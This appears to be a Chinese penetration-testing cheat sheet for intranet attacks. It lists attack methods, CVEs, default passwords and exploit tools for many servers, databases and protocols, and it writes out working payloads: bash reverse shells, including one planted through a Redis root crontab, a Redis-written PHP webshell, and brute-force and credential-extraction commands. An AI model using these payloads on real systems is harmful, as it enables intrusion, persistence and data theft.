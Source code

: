 常规思路
========================================

内网安全检查
----------------------------------------

攻击思路
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击外网服务器，获取外网服务器的权限，接着利用入侵成功的外网服务器作为跳板，攻击内网其他服务器，最后获得敏感数据，并将数据传递到攻击者，看情况安装长期后门，实现长期控制和获得敏感数据的方式；
- 攻击办公网的系统、办公网电脑、办公网无线等方式，一般是采用社工，实现控制办公电脑，再用获得的办公网数据，可能是内网的各种登录账号和密码，再获取办公网或者生产网的有用数据。

敏感资料/数据/信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 高管/系统管理员/财务/人事/业务人员的个人电脑
- 文件服务器/共享服务器
- 邮件服务器
- OA服务器
- 数据库服务器

攻击过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 信息收集
- 漏洞验证/漏洞攻击
- 后渗透
- 日志清理

信息收集
----------------------------------------
- 主机发现
- 端口扫描
- 漏洞扫描
- 识别内网环境
	+ 办公网
	+ 生产网

漏洞验证/漏洞攻击
----------------------------------------

Tomcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口号：8080
+ 攻击方法
	- 默认口令、弱口令，爆破，tomcat5 默认有两个角色：tomcat和role1。其中账号both、tomcat、role1的默认密码都是tomcat。弱口令一般存在5以下的版本中。
	- 在管理后台部署 war 后门文件
	- 远程代码执行漏洞
	- msf暴力破解
		::
		
			msfconsole
			search tomcat
			use auxiliary/scanner/http/tomcat_mgr_login 
			show options
			set rhosts 192.168.48.128
			run
			参考：https://blog.csdn.net/weixin_45006817/article/details/114936847
	- 防火墙绕过
		+ 包体前填充大量数据
		+ 示例：`tomcat.war <..//_static//tomcat.war>`_
+ 常见漏洞
	- CVE-2016-8735
	- CVE-2017-12615

Jboss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：8080
+ 攻击方法
	- 弱口令，爆破
	- 管理后台部署 war 后门
	- 反序列化
	- 远程代码执行
+ 常见漏洞
	- CVE-2015-7501
	- CVE-2017-7504
	- CVE-2017-12149

WebLogic
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：7001，7002
+ 攻击方法
	+ 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
	+ 管理后台部署 war 后门
	+ SSRF
	+ 反序列化漏洞
	+ weblogic_uac
+ 常见漏洞
	- CVE-2019-2725
	- CVE-2019-2729
	- CVE-2018-3191
	- CVE-2018-2628
	- CVE-2018-2893
	- CVE-2018-2894
	- CVE-2017-3506
	- CVE-2017-10271
	- CVE-2017-3248
	- CVE-2016-0638
	- CVE-2016-3510
	- CVE-2015-4852
	- CVE-2014-4210
+ 利用工具
	- 地址：``https://github.com/21superman/weblogic_exploit``
	- Weblogic 反序列化 RCE 图形化利用工具。

Shiro
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 利用工具
	- 地址：``https://github.com/j1anFen/shiro_attack``
	- Shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）.

WebSphere
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：默认端口：908*；第一个应用就是9080，第二个就是9081；控制台9090
+ 攻击方法
	+ 控制台登录爆破
	+ 很多内网 websphere 的控制台存在弱口令 / 默认口令，可以使用 admin/admin 以及 webshpere/webshpere 这种口令登录。 通过该口令登录控制台后，可以部署 war 包，从而获取到 WEBSHELL 。
	+ 反序列化
	+ 任意文件泄露

Struts2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ S2-048
	+ S2-052
	+ S2-053
	+ S2-057
	+ S2-046 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-045 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-037 CVE-2016-4438 Struts 2.3.20-2.3.28.1
	+ S2-032 CVE-2016-3081 Struts 2.3.18-2.3.28
	+ S2-020 CVE-2014-0094 Struts 2.0.0-2.3.16
	+ S2-019 CVE-2013-4316 Struts 2.0.0-2.3.15.1
	+ S2-016 CVE-2013-2251 Struts 2.0.0-2.3.15
	+ S2-013 CVE-2013-1966 Struts 2.0.0-2.3.1
	+ S2-009 CVE-2011-3923 Struts 2.0.0-2.3.1.1
	+ S2-005 CVE-2010-1870 Struts 2.0.0-2.1.8.1
+ 扫描工具
	+ https://github.com/x51/STS2G/releases
	+ ``ST2SG --mode scan --url http://xxx.com/index.action``
+ 利用工具
	+ 地址：``https://github.com/shack2/Struts2VulsTools``

Spring 框架
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ CVE-2010-1622
	+ CVE-2018-1274
	+ CVE-2018-1270
	+ CVE-2018-1273
	+ 反序列化
	+ 目录穿越
+ 利用工具
	- SpringBootExploit
		+ 地址：``https://github.com/0x727/SpringBootExploit``
		+ 一款针对 SpringBootEnv 页面进行快速漏洞利用的工具。

swagger
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 未授权访问
	::
	
		/api
		/api-docs
		/api-docs/swagger.json
		/api.html
		/api/api-docs
		/api/apidocs
		/api/doc
		/api/swagger
		/api/swagger-ui
		/api/swagger-ui.html
		/api/swagger-ui.html/
		/api/swagger-ui.json
		/api/swagger.json
		/api/swagger/
		/api/swagger/ui
		/api/swagger/ui/
		/api/swaggerui
		/api/swaggerui/
		/api/v1/
		/api/v1/api-docs
		/api/v1/apidocs
		/api/v1/swagger
		/api/v1/swagger-ui
		/api/v1/swagger-ui.html
		/api/v1/swagger-ui.json
		/api/v1/swagger.json
		/api/v1/swagger/
		/api/v2
		/api/v2/api-docs
		/api/v2/apidocs
		/api/v2/swagger
		/api/v2/swagger-ui
		/api/v2/swagger-ui.html
		/api/v2/swagger-ui.json
		/api/v2/swagger.json
		/api/v2/swagger/
		/api/v3
		/apidocs
		/apidocs/swagger.json
		/doc.html
		/docs/
		/druid/index.html
		/graphql
		/libs/swaggerui
		/libs/swaggerui/
		/spring-security-oauth-resource/swagger-ui.html
		/spring-security-rest/api/swagger-ui.html
		/sw/swagger-ui.html
		/swagger
		/swagger-resources
		/swagger-resources/configuration/security
		/swagger-resources/configuration/security/
		/swagger-resources/configuration/ui
		/swagger-resources/configuration/ui/
		/swagger-ui
		/swagger-ui.html
		/swagger-ui.html#/api-memory-controller
		/swagger-ui.html/
		/swagger-ui.json
		/swagger-ui/swagger.json
		/swagger.json
		/swagger.yml
		/swagger/
		/swagger/index.html
		/swagger/static/index.html
		/swagger/swagger-ui.html
		/swagger/ui/
		/Swagger/ui/index
		/swagger/ui/index
		/swagger/v1/swagger.json
		/swagger/v2/swagger.json
		/template/swagger-ui.html
		/user/swagger-ui.html
		/user/swagger-ui.html/
		/v1.x/swagger-ui.html
		/v1/api-docs
		/v1/swagger.json
		/v2/api-docs
		/v3/api-docs
+ 扫描
	+ dirsearch
	+ api泄露，直接测试，看是否需要授权

Actuator信息泄露
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Spring Boot Actuator 模块提供了健康检查，审计，指标收集，HTTP 跟踪等，是帮助我们监控和管理Spring Boot 应用的模块。
+ https://github.com/LandGrey/SpringBootVulExploit
+ heapdump获取*密码
	- JDK/bin/jvisualvm.exe工具
	- OQL执行： ``select s from java.util.LinkedHashMap$Entry s where /spring.datasource.password/.test(s.key)``
	- ``https://github.com/wyzxxz/heapdump_tool``
	- ``https://github.com/whwlsfb/JDumpSpider``
+ jolokia接口利用

Fastjson
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 利用工具
	- Fastjson_rce_tool
		+ 地址：``https://github.com/wyzxxz/fastjson_rce_tool``
		+ Fastjson命令执行自动化利用工具， remote code execute，JNDI服务利用工具 RMI/LDAP，LDAP反序列方式部分回显.

IIS：Windows 的 WWW 服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://masterxsec.github.io/2017/06/07/IIS-write-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
+ http://www.freebuf.com/articles/4908.html
+ https://www.anquanke.com/post/id/85811
+ IIS，开启了 WebDAV，可以直接详服务器 PUT 文件
+ 短文件名枚举漏洞
+ 远程代码执行
+ 提权漏洞
+ 解析漏洞

Apache
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 解析漏洞
+ 目录遍历

Apache Dubbo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-1948 反序列化漏洞利用
+ https://blog.csdn.net/weixin_46137328/article/details/107194560

Apache Flink
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 任意 Jar 包上传致 RCE 漏洞
+ https://zhuanlan.zhihu.com/p/328382373

Nginx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://www.seebug.org/vuldb/ssvid-92538
+ 解析漏洞
+ 目录遍历
+ CVE-2016-1247：需要获取主机操作权限，攻击者可通过软链接任意文件来替换日志文件，从而实现提权以获取服务器的root权限

lighttpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 目录遍历

宝塔
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过一个交互界面就能完成服务器的维护工作，比如更新系统，添加网站，修改设置等等。可以搭建任何开源建站程序，包括主流的WordPress，帝国CMS,织梦程序等，也可以搭建Java开源的建站程序，例如OneBlog程序。

Gitlab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- GitLab是一个利用 Ruby on Rails 开发的开源应用程序，实现一个自托管的项目仓库，可通过Web界面进行访问公开的或者私人项目。
- 可利用漏洞
	+ 任意文件读取漏洞
	+ 任意用户 token 泄露漏洞
	+ 命令执行漏洞
	
Jenkins
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Jenkins是一种跨平台的持续集成和交付的应用软件，它便于不断稳定地交付新的软件版本，并提高你的工作效率。这款开发运维工具还让开发人员更容易把项目的变化整合起来，并使用大量的测试和部署技术。
- 可利用漏洞：
	+ 远程代码执行漏洞
	+ 反序列化漏洞
	+ 未授权访问漏洞
	+ 登录入口爆破
- 常见漏洞
	+ CVE-2018-1999002

Puppet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Puppet Enterprise专门管理基础设施即代码(IAC)，在这种类型的IT基础设施配置过程中，系统用代码而不是脚本流程来自动构建、管理和配置。由于它是代码，整个过程易于重复。Puppet有助于更容易控制版本、自动化测试和持续交付，可以更快速地响应问题或错误。
- 可利用漏洞，很少公开的POC
- 反序列化
- 远程命令执行

Ansible
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Ansible是一种配置和管理工具，面向客户端的软件部署和配置，支持Unix、Linux和Windows。它使 用JSON和YAML，而不是IAC，根本不需要节点代理就可以安装。它可以通过OpenStack在内部系统上使用，也可以在亚马逊EC2上使用。
- 可利用漏洞
	+ 远程代码执行
	
Nagios
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nagios是一款开源的电脑系统和网络监视工具，能有效监控Windows、Linux和Unix的主机状态，交换机路由器等网络设置，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。
- 可利用漏洞
	+ 代码执行
	+ SQLi
	
Zabbix
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Zabbix 是一款强大的开源分布式监控系统, 能够将SNMP、JMX、Zabbix Agent提供的数据通过WEB GUI的方式进行展示。
- 可利用漏洞
	+ 远程代码执行
	+ SQLi
	+ shell 命令注入
	+ 认证绕过
	+ 默认账户与密码，默认口令 admin/zabbix，或者是guest/空
	
Cacit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Cacti是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具。
- 可利用漏洞
	+ 任意代码执行
	+ SQLi
	+ 登录爆破
	+ 默认密码admin/admin
	
Splunk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Splunk Enterprise 可以从任何来源监控和分析机器数据，以提供操作智能，从而优化您的 IT、安全和业务绩效。Splunk Enterprise 具有直观的分析功能、机器学习、打包应用程序和开放式 API，是一个灵活的平台，可从重点用例扩展到企业范围的分析主干。
- 可利用漏洞
	+ 信息泄露
	+ 命令注入
	+ 服务端请求伪造

邮件系统
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一部分是使用腾讯企业邮箱、阿里企业邮箱的，很难有可利用的漏洞，另外一种是能独立部署的邮件系统，政企常用的邮箱应用：

- Coremail
- 亿邮
- 35互联
- TurboMail
- Exchange
- IBM Lotus

nacos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 阿里巴巴产品，微服务配置中心。
+ 漏洞
	- 未授权文件泄露
	- 未授权任意用户添加
	- ``https://github.com/alibaba/nacos/issues/4593``

wordpress
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 扫描插件和主题是否包含漏洞
+ 拿到wp网站登录用户名和密码
	- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
	- shell目录：/wp-content/themes/[主题名]/[shell文件名]
	- 通过主题编辑修改php页面
+ xmlrpc.php
	- 查看支持的方案
	
	::
	
		POST /xmlrpc.php HTTP/1.1
		Host: 192.168.100.106
		User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
		Content-Type: text/xml;charset=UTF-8
		Content-Length: 128

		<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

CMS Made Simple
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 数据库更改密码方法
	- 前提：登录数据库
	- ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
+ 反弹shell
	- 前提：登录系统
	- Extensions/User Defined Tags
		::
			
			vps开启监听
			修改任何一个tag的code，点击apply，点击run
			echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");

tiki
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-15906
	- 利用条件：tiki<21.2
	- 免密码登录
		::
		
			https://www.exploit-db.com/exploits/48927
			python 48927.py 192.168.100.103
			打开burpsuite，开启拦截
			浏览器登录admin，输入密码
			bp去掉密码，forward
			
	- 命令执行
		::
		
			https://srcincite.io/pocs/cve-2021-26119.py.txt
			python cve-2021-26119.py 192.168.100.103 /tiki/ whoami

MySQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3306
- 攻击方法
	+ 爆破：弱口令
	+ 身份认证漏洞：CVE-2012-2122
	+ 拒绝服务攻击
	+ Phpmyadmin万能密码绕过：用户名：‘localhost’@’@” 密码任意
	+ 提权
	
MSSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
- 攻击方法：
	+ 爆破：弱口令/使用系统用户
	+ 注入
	
Oracle数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
- 攻击方法：
	+ 爆破：弱口令
	+ 注入攻击
	+ 漏洞攻击

PostgreSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5432
- 攻击方法
	+ 爆破：弱口令：postgres postgres
	+ 缓冲区溢出：CVE-2014-2669
	
MongoDB数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：27017
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问；github有攻击代码；
	
Redis数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：6379
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问+配合ssh key提权
- 工具和命令
	+ 连接：``redis-cli -h 172.16.143.1 -p 6379``
	+ 查看所有的keys：``keys *``
	+ 写入文件
		::
		
			CONFIG GET dir
			CONFIG SET dir /usr/share/apache/htdocs/
			SET shell "<?php echo system($_REQUEST[cmd])?>"
			CONFIG SET dbfilename shell.php
			save
	+ 反弹shell
		::
		
			C2服务器监听：nc -lvnp 7999
			
			注意：先查看一下原来的dir，dbfilename是什么，进行备份。
			redis服务器执行以下redis命令：
			set xx "\n* * * * * bash -i >& /dev/tcp/192.168.32.144/7999 0>&1\n"
			config set dir /var/spool/cron/
			config set dbfilename root
			save

SysBase数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：服务端口5000；监听端口4100；备份端口：4200
- 攻击方法：
	+ 爆破：弱口令
	+ 命令注入
	
DB2 数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5000
- 攻击方法
	+ 安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）

minio
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 未授权信息泄露
+ https://github.com/Okaytc/minio_unauth_check

ActiveMQ
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：8161
- 攻击方法
	+ CVE-2016-3088：任意文件写入漏洞（Apache ActiveMQ 5.0.0 - 5.13.2）
		::
		
			https://jishuin.proginn.com/p/763bfbd74e97

MQTT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ MQTT是一个基于客户端-服务器消息发布/订阅传输协议。
+ 相关漏洞
	- 授权和认证漏洞
	- 传输漏洞
	- 应用漏洞
+ mqtt-pwn
	::
	
		
		git clone https://github.com/akamai-threat-research/mqtt-pwn.git
		cd mqtt-pwn
		sudo docker-compose up --build --detach
		启动
		sudo docker-compose ps
		sudo docker-compose run cli


数据库【综合工具】
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ MDUT
	- MDUT 全称 Multiple Database Utilization Tools，是一款中文的数据库跨平台利用工具，集合了多种主流的数据库类型。基于前人 SQLTOOLS 的基础开发了这套程序(向 SQLTOOLS 致敬)，旨在将常见的数据库利用手段集合在一个程序中，打破各种数据库利用工具需要各种环境导致使用相当不便的隔阂。
	- 地址：``https://github.com/SafeGroceryStore/MDUT``

FTP 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
FTP服务我分为两种情况，第一种是使用系统软件来配置，比如IIS中的FTP文件共享或Linux中的默认服务软件；第二种是通过第三方软件来配置，比如Serv-U还有一些网上写的简易ftp服务器等；

- 默认端口：20（数据端口）；21（控制端口）；69（tftp小型文件传输协议）
- 攻击方式
	+ 爆破：ftp的爆破工具有很多，这里我推荐owasp的Bruter 以及msf中ftp爆破模块；
	+ 匿名访问：用户名：anonymous 密码：为空或任意邮箱
	+ 嗅探：ftp使用明文传输技术（但是嗅探给予局域网并需要欺骗或监听网关）
	+ 后门 vsftp
	+ 远程溢出
	+ 跳转攻击

NFS 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

- 攻击方法
	+ 未授权访问

Samba服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Samba是linux和unix系统上实现SMB/CIFS协议的一个免费软件，由服务器和客户端程序构成。而SMB是局域网支持共享文件和打印机的一种通信协议，为局域网内不同计算机之间提供文件及打印机等资源的共享服务。

- 攻击方法
	+ 远程代码执行
	+ 弱口令
	+ 未授权访问（public）

SSH服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSH是协议，通常使用OpenSSH软件实现协议应用。

- 端口：22
- 攻击方法
	+ 爆破
	+ 后门
	+ 漏洞：28退格漏洞、OpenSSL漏洞
- 常见漏洞
	+ CVE-2018-15473
		- OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机。
		- auxiliary(scanner/ssh/ssh_enumusers
		- https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
		- ``python sshUsernameEnumExploit.py --port 22 --userList /home/kali/Downloads/rockyou.txt 192.168.100.103``
- 命令
	+ 公钥登录: ``ssh -i id_rsa root@142.93.198.56``


Telnet服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。

- 默认端口：21
- 攻击方法
	+ 爆破
	+ 嗅探

Windows远程连接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3389
- 攻击方法
	+ 爆破
	+ Shift粘滞键后门：5次shift后门
	+ 利用ms12-020攻击3389端口
	
VNC服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
VNC（Virtual Network Computing），为一种使用RFB协议的显示屏画面分享及远程操作软件。此软件借由网络，可发送键盘与鼠标的动作及即时的显示屏画面。

- 默认端口：5900+桌面ID（5901；5902）
- 攻击方式：
	+ 爆破：弱口令
	+ 认证口令绕过：
	+ 拒绝服务攻击：（CVE-2015-5239）
	+ 权限提升：（CVE-2013-6886）
	
SMTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smtp：邮件协议，在linux中默认开启这个服务，可以向对方发送钓鱼邮件！

- 默认端口：25（smtp）、465（smtps）
- 攻击方式
	+ 爆破：弱口令
	+ 未授权访问
	
POP3协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：109（POP2）、110（POP3）、995（POP3S）
- 攻击方式：
	+ 爆破；弱口令
	+ 未授权访问

DNS服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：53
- 攻击方式：
	+ 区域传输漏洞
	
IMAP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：143（imap）、993（imaps）
- 攻击方式：
	+ 爆破：弱口令
	+ 配置不当
	
SNMP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：161
- 攻击方式
	+ 爆破：弱口令
	
DHCP服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：67&68、546（DHCP Failover做双机热备的）
- 攻击方式：
	+ DHCP劫持

VMware
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
使用 VMware vCloud 可将现有数据中心内的虚拟基础架构资源池化，并将其作为基于目录的服务交付。通过与云计算基础架构的最佳平台 VMware vSphere 配合使用，VMware vCloud Director 可为客户提供构建安全的私有云，从而改变 IT 部门交付和管理基础架构服务以及用户访问和使用这些服务的方式。

一般组织中很多独立安装的 Esxi 形式的私有云，或独立部署的虚拟化系统。

- 漏洞
	+ 主机逃逸
	+ CVE-2017-5638
	
OpenStack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
OpenStack是基础设施即服务（IaaS）软件，让任何人都可以自行创建和提供云计算服务。此外，OpenStack也用作创建防火墙内的“私有云”（Private Cloud），提供机构或企业内各部门共享资源。

- 漏洞，有漏洞但是POC基本没有。检查时候可以参考安全的配置实践。
	+ 权限绕过漏洞
	+ 信息泄露
	+ 代码执行漏洞
	
Docker
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Docker是一个开放源代码软件项目，让应用程序布署在软件容器下的工作可以自动化进行，借此在Linux操作系统上，提供一个额外的软件抽象层，以及操作系统层虚拟化的自动管理机制[1]。

Docker利用Linux核心中的资源分脱机制，例如cgroups，以及Linux核心名字空间（name space），来创建独立的软件容器（containers）。这可以在单一Linux实体下运作，避免引导一个虚拟机造成的额外负担。

Linux核心对名字空间的支持完全隔离了工作环境中应用程序的视野，包括进程树、网络、用户ID与挂载文件系统，而核心的cgroup提供资源隔离，包括CPU、内存、block I/O与网络。

从0.9版本起，Dockers在使用抽象虚拟是经由libvirt的LXC与systemd - nspawn提供界面的基础上，开始包括libcontainer函数库做为以自己的方式开始直接使用由Linux核心提供的虚拟化的设施。

- 安全问题（很少有漏洞的POC，安全检查也是基于最佳实践和官方安全建议进行）
	+ CVE-2015-3630 1.6.0 Docker Libcontainer 安全绕过漏洞
	+ CVE-2015-3627 1.6.1 Libcontainer和Docker Engine 权限许可和访问控制漏洞
	+ CVE-2015-3630 1.6.1 Docker Engine 安全绕过漏洞
	+ CVE-2014-9358 1.3.3 Docker 目录遍历漏洞
	+ CVE-2014-9357 1.3.2 Docker 权限许可和访问控制漏洞
	+ CVE-2014-6408 1.3.1 Docker 权限许可和访问控制漏洞
	+ CVE-2014-5277 1.3.0 Docker和docker-py 代码注入漏洞
	+ 内核漏洞（Kernel exploits） 容器是基于内核的虚拟化，主机（host）和主机上的所有容器共享一套内核。如果某个容器的操作造成了内核崩溃，那么反过来整台机器上的容器都会受到影响。
